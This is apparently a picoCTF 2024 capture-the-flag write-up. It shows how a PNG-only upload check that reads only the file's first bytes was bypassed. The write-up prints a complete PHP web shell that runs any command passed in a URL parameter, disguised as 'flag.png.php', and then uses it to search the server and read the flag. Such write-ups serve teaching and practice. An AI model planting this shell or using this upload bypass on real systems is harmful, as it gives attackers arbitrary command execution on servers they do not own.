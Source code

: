 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#browser_webshell_solvable_<br>

I found a web app that can help process images: ***PNG images only***!

## Solution

At first, I tried uploading a PNG file to see what happens on the website and in Burp Suite.

![image](https://github.com/user-attachments/assets/65d68ea5-46d5-471b-a432-3da81d544cca)<br>
**This is what I got from the website: it says the uploaded file is a valid PNG file. Now it is time to investigate how the system defines a PNG file.*
<br>

![image](https://github.com/user-attachments/assets/707cc9a2-1e0d-4cc9-aa22-1205b33da0e3)<br>
**This is the result I got from Burp Suite. From the raw data shown, we can see that the system defines PNG files by checking the first few characters, "PNG".*
<br>

Hence, through observation, we can create a PHP script by adding 'PNG' as the first few characters and then insert the script into the system folder. We believe the uploaded files will be stored in the 'uploads' folder, which can be easily accessed through the site. <br>

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**This is the script that we will use. Insert this php script into a notepad and save as ***flag.png.php***. Then upload this file to the system and we'll get a successful message.*

To get use of the script inserted, we then go to the website to get the file uploaded by adding the uploaded file path ***/uploads/flag.png.php*** to the site ***http://atlas.picoctf.net:60355***. We will use this field to enter a command `find / -name '*.txt'` to list down all the txt file.<br>

![image](https://github.com/user-attachments/assets/1615bc9d-cf02-43e7-8dce-a983f9b04bd9)<br>
**This is the list of all the .txt files. There is a suspicious file name: /var/www/html/GAZWIMLEGU2DQ.txt. So, I decided to open it and take a look by running the command cat /var/www/html/GAZWIMLEGU2DQ.txt.*

![image](https://github.com/user-attachments/assets/710971f2-22f1-41e2-8325-cb6f19784c64)<br>
**Here is the flag*
